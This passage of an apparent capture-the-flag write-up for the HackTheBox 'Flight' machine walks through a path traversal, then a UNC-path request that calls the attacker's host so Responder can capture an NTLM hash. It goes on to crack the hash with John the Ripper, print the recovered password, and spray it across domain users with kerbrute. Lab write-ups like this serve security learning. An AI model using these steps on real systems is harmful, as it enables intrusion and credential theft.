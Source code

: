 However, when we request a file using the forward slash directory separator like [/index.php?view=./about.html](http://school.flight.htb/index.php?view=./about.html), we successfully fetch the file. With this in mind, let's try to traverse the filesystem and read another file that might exist on Windows like `C:\Windows\win.ini`{:.filepath}.

![Path traversal](traversal.png)
_We successfully read C:\Windows\win.ini_

It works! Since we're on Windows and we control the entire file path, we could potentially use an UNC path to capture a crackable NTLM authentication attempt.

```bash
# bryan@attacker
sudo responder -I tun0
```
{:.nolineno}
```bash
# bryan@attacker
curl "http://school.flight.htb/index.php?view=//$lhost/x/test.jpg"
```
{:.nolineno}

![Responder callback](responder.png)
_We capture an NTLM authentication attempt over SMB_

We get the authentication attempt formatted into a crackable hash. We'll copy this to a file and use [John the Ripper](https://github.com/openwall/john) to try to crack it.

```bash
# bryan@attacker
john ./netntlmv2.txt --wordlist=~/wordlist/rockyou.txt # use classic rockyou.txt wordlist
```
{:.nolineno}

The hash for _svc\_apache_ is successfully cracked and we recover the password `S@Ss!K@*t13`.

## Active Directory

### Password Spraying

Let's use the credentials we found with a simplified version of impacket's `GetADUsers.py`{:.filepath} from [here](https://github.com/bryanmcnulty/ctf-scripts/blob/main/active_directory/simple-GetADUsersLDAP.py) to gather a list of domain users. Then we'll then spray each user with the known password.

```bash
# bryan@attacker
./simple-GetADUsersLDAP.py $domain/svc_apache:'S@Ss!K@*t13' | tee adusers.txt
kerbrute -d $domain --dc $rhost passwordspray adusers.txt 'S@Ss!K@*t13'
```
{:.nolineno}

The password is also valid for the user **_S.Moon_**.

### SMB
